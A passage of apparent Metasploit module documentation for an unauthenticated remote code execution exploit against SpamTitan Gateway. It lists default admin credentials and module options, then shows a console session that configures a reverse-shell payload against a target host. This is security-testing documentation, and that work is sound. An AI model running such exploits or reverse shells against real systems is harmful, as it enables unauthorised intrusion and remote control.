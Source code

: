 ### USERNAME
The username to authenticate, if required (depending on SpamTitan Gateway
version). Default value is `admin`.

### PASSWORD The password to authenticate, if required (depending on SpamTitan
Gateway version). Default value is `hiadmin`.

### COMMUNITY
The SNMP Community String to use (random string by default)

### ALLOWEDIP
The IP address that will be allowed to query the injected `extend` command.
This IP will be added to the SNMP configuration file on the target. This is
tipically this host IP address, but can be different if your are in a NAT'ed
network. If not set, `LHOST` will be used instead. If `LHOST` is not set, it
will default to `127.0.0.1`.

## Scenarios
Specific demo of using the module that might be useful in a real world scenario.

### SpamTitan Gateway v7.01 - target 0 (in-memory command)

```
msf6 > use exploit/freebsd/webapp/spamtitan_unauth_rce
[*] Using configured payload cmd/unix/reverse
msf6 exploit(freebsd/webapp/spamtitan_unauth_rce) > set LHOST 172.16.60.1
LHOST => 172.16.60.1
msf6 exploit(freebsd/webapp/spamtitan_unauth_rce) > set RHOSTS 172.16.60.101
RHOSTS => 172.16.60.101
msf6 exploit(freebsd/webapp/spamtitan_unauth_rce) > set verbose true
verbose => true
msf6 exploit(freebsd/webapp/spamtitan_unauth_rce) > show options

Module options (exploit/freebsd/webapp/spamtitan_unauth_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   ALLOWEDIP                   no        The IP address that will be allowed to query the injected `extend` command. This IP will be added to the SNMP configuration file on the target. This is tipically this host IP address, but can be different if your are in a NAT'ed network. If not set, `LHOST` will be used instead. If `LHOST` is not set, it will default to `127.0.0.1`.
   COMMUNITY  BTMlXXtt         no        The SNMP Community String to use (random string by default)
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RETRIES    1                yes       SNMP Retries
   RHOSTS     172.16.60.101    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (UDP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The base path to SpamTitan
   TIMEOUT    1                yes       SNMP Timeout
   URIPATH                     no        The URI to use for this exploit (default is random)
   VERSION    1                yes       SNMP Version <1/2c>
   VHOST                       no        HTTP server virtual host

```